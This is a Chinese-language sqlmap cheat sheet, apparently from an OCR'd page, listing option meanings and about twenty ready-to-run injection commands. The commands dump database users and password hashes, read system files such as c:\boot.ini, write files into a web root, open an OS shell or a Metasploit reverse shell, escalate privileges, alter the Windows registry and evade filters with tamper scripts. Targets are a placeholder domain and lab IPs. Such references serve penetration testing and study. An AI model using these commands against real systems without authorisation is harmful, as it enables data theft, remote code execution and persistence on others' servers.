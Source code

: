 ```sql
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
```